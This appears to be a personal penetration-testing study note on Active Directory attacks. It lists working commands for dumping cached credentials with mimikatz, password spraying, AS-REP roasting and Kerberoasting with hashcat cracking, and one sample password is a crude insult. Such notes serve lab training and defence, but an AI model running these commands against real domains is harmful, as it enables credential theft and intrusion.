


# AD AuthN Basic
- Domain Expansion: I'd Win 
## AuthN Type
1. NTLM 
   
2. Kerberos 
   

## Cached AD Credential
- w/ mimikatz
- ```privilege::debug``` to engage the SeDebugPrivlege8 privilege, which will allow us to interact with a process owned by another account.
- ``` sekurlsa::logonpasswords ``` get cached password that loggin this pc
- ``` sekurlsa::tickets ``` get cached ticket 

# Attack AD
## Password attack/ Spray
- ``` net accounts ``` get account policy e.g. logout time
1. DirectoryService (low & slow)
    - Run in Windows Env.
    - Get LDAP path (reference ch21)
    - ``` New-Object System.DirectoryServices.DirectoryEntry($LDAPpath, {username}, {passowrd}) ``` test if return normal result. If yes = correct , if false = nope 
    - DomainPasswordSpray: https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1 #NoFullAutoInTheBuilding! 🔫🔫🔫🔫🔫🔫
2. SMB (Nois & slow)
    - Run in Kali Env
    - ``` crackmapexec smb {victim ip} -u users.txt -p 'YouAreFuckingGay' -d corp.com --continue-on-success ``` 
    - If have local admin rights of that ac will show "Pwd3d!"
3. Kerberos TGT
    - Run in Windows/ Kali
    - Kerbrute: https://github.com/ropnop/kerbrute/releases/tag/v1.0.3
    - ``` .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!" ```

## AS-REP Roasting
- If without Kerberos pre-authN
- Linux (Kali way) 
1. ``` impacket-GetNPUsers -dc-ip {domain controller ip!!}  -request -outputfile {file name} corp.com/pete ``` Grap the AS-REP packet
2. ``` sudo hashcat -m 18200 {file name} /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force -n 20 ``` 

- Windows (victim way)
1. Rubeus: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
2. ``` .\Rubeus.exe asreproast /nowrap ```
3. hashcat 

## Kerberoast (TGS-REP)
- The service ticket is encrypted using the SPN's password hash.
- m=13100 hashcat
- Linux (kali way)
1. ``` sudo impacket-GetUserSPNs -request -dc-ip {domain controller ip} corp.com/pete ```
2. hashcat

- Windows (victim way)
1. ``` .\Rubeus.exe kerberoast /outfile:hashes.kerberoast ```
2. hashcat crack